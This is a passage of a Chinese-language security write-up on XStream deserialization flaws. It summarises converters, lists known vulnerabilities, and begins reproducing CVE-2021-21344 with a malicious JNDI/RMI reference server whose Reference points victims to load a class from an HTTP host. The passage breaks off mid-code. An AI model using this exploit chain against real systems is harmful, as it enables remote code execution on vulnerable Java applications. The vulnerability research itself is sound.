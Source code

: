 **总结**  
总而言之，XStream为Java常见的类型提供了不同的转换器，其思路就是通过不同的converter来处理序列化数据中不同类型的数据

## 3\. 漏洞汇总

[![](assets/1701612148-376286ee07bd527c30319a4b40e2f0cd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230814212046-60b41f10-3aa5-1.png)  
[![](assets/1701612148-b5e8ea56a1a0369d780735d727b28ffc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230814212104-6b6379f6-3aa5-1.png)  
参考：[https://x-stream.github.io/security.html](https://x-stream.github.io/security.html)

## 4\. CVE-2021-21344

**影响版本**：<=1.4.15  
**测试环境**：XStream1.4.15 jdk1.8\_66  
**复现**：  
继续使用JNDI中用到的RMI Server：

```plain
package JNDI;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ReferServer {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.createRegistry(7777);

        // 创建Reference对象
        Reference reference = new Reference("test", "test", "http://127.0.0.1:8080/");
        // 由于Reference类没有继承Remote接口, 所以需要使用ReferenceWrapper进行封装
        ReferenceWrapper wrapper = new ReferenceWrapper(reference);
```